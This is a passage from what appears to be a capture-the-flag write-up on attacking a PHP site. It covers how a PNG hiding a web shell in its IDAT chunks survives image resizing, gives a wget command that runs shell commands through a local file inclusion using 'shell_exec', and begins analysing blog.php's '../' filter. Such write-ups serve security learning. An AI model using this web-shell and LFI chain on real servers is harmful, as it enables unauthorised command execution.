 And finally i find something strange, at the line 40, the function "imagecopyresampled" will modify the picture by resizing it, so, if i try to add some php code inside a png file, my code will be compromised by this function. So i need to find how to bypass this function.

```
      else {
          $target = imagecreatetruecolor($size['width'], $size['height']);

          imagecopyresampled($target, imagecreatefromstring(file_get_contents($_FILES["upload"]["tmp_name"])), 0, 0, 0, 0, $size['width'], $size['height'], $check[0], $check[1]);

```

### How to bypass "imagecopyresampled" function<a name="BypassFunction"></a>

Searching on Google and i find two ressources, one in french and one in english.

- [English](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
- [French](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)

> I invite you to read those articles, it's really interesting! Because i'm not going to explain in details, i only will use the PoC png file.

So basically i can download the PoC PNG file [here](https://www.idontplaydarts.com/images/phppng.png). Then upload it, and execute it with "wget" through an LFI, and put as parameter "&0=shell_exec", and as post data "1=command here".

Something like:
```
wget "http://website.com/lfi.php?parameter=../uploads/phppng.png&0=shell_exec" --post-data="1=ls"
```

It will save the request into a file, reading it will show me the output of our executed command.

Now for make this attack possible, i need to find an LFI. So i came back to the source code.

### Source Code Analysis - Finding the LFI<a name="FindLFI"></a>

Reading the file "blog.php", i can see that the "blog.php" page is vulnerable to LFI, and the maker of the website tried to secure it.

```
<?php
	if (isset($_GET['article']))
	{
		$file = str_replace('../', '', $_GET['article']);

		if (is_numeric($file))
			$file = 'blog_'.$file.'.html';

		if (strpos($file, 'blog_') !== false && strpos($file, 'html') !== false) {
			include(dirname(__FILE__).'/blog/'.$file);
		}
		else {
			echo 'Invalid Format';
		}
	}
	else
	{
		include(dirname(__FILE__).'/blog.html');
	}
?>
```
I can see at the line 2, the parameter is "article", at the line 4, if i put the string `'../'` into the parameter it will change that to `''`.
